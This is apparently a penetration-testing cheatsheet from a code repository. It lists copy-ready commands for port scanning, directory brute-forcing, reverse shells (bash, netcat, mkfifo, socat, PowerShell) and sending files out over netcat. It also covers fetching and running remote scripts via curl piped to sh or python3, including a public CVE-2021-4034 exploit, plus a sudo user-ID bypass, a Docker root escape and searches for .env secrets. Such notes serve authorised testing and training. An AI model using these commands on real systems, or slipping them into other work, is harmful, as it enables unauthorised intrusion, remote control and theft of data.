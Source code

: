 # CHEATSHEET  
<br /><br />
## NETWORK ENUMERATION
<br />
### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```
<br />
### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```
<br />
### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```
<br />
### HTTP ENUMERATION
Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```
Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```
<br />
<br />
<br />
## REVERSE SHELLS
<br />
### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
<br />
### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```
<br />
### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```
<br />
### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```
<br />
### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
<br />
### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```
<br />
<br />
<br />
## SHARE AND DOWNLOAD
<br />
### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```
<br />
### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```
<br />
### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```
<br />
### DOWNLOAD 
#### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```
<br />
####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```
<br />
#### Bash
```bash
wget "http://<IP>/"
```
<br />
<br />
<br />
## SYSTEM ENUMERATION
<br />
### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```
<br />
### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```
<br />
### Check capabilities
```bash
getcap -r / 2>/dev/null
```
<br />
### Open local ports
```bash
ss -nltp
```
<br />
### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```
<br />
### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
<br />
### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```
<br />
### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
<br />
<br />
<br />
## PRIVILEGE ESCALATION
<br />
### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```
<br />
### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
<br />
### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```
<br />
